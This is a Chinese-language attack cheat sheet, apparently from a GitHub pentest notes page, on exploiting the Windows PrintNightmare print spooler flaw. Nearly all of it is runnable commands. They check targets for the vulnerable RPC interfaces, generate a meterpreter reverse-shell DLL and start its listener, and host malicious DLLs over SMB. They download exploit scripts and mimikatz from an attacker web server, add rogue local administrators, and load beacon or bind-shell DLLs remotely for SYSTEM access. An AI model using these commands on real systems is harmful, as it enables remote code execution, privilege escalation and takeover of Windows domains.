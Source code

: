   #### 检查
  	Impacket - rpcdump
	>python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
	ItWasAllADream
	>git clone https://github.com/byt3bl33d3r/ItWasAllADream
	>cd ItWasAllADream && poetry install && poetry shell
	>itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
	>docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
  #### 执行
  ##### PrintNightmare-CVE-2021-34527
	攻击机执行
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f dll -o evil.dll
	检测是否存在领漏洞
	>use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
	>set RHOSTS 192.168.1.190
	>set SMBUser ignite
	>set SMBPass 123
	>set DLL_PATH /
	>exploit
	监听
	>use multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set LHOST 192.168.1.2
	>set LPORT 4444
	>exploit
	https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527
	托管dll
	>python3 /usr/share/doc/python3-impacket/examples/smbserver.py share /root
	执行
	./CVE-2021-34527.py ignite:123@192.168.1.190 '\\192.168.1.2\share\evil.dll'
	即可获得system
	或使用powershell
	https://github.com/calebstewart/CVE-2021-1675.git
	>python3 -m http.server 80
	靶机执行>powershell wget http://192.168.1.2/CVE-2021-1675.ps1 -O \Users\Public\cve.ps1
	>powershell -ep bypass
	>Import-Module .\cve.ps1
	>Invoke-Nightmare -NewUser "harsh" -NewPassword "123" -DriverName "PrintMe"
	或使用mimikatz
	MSF监听后
	>python3 -m http.server 80
	>powershell wget http://192.168.1.2/mimikatz.exe -O \users\Public\mimikatz.exe
	>misc::printnightmare /library:\\192.168.1.2\share\evil.dll /authuser:ignite /authpassword:123 /try:50
  ##### SharpNightmare
  	https://github.com/cube0x0/CVE-2021-1675
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
	本地执行溢出
	>SharpPrintNightmare.exe C:\addCube.dll
	远程命令执行
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
  ##### Invoke-Nightmare
	本地执行溢出
  	https://github.com/calebstewart/CVE-2021-1675
	>Import-Module .\cve-2021-1675.ps1
	>Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
	>Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
	>Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
  ##### Mimikatz v2.2.0-20210709+
  	本地执行溢出
  	>misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
	远程命令执行
	>misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50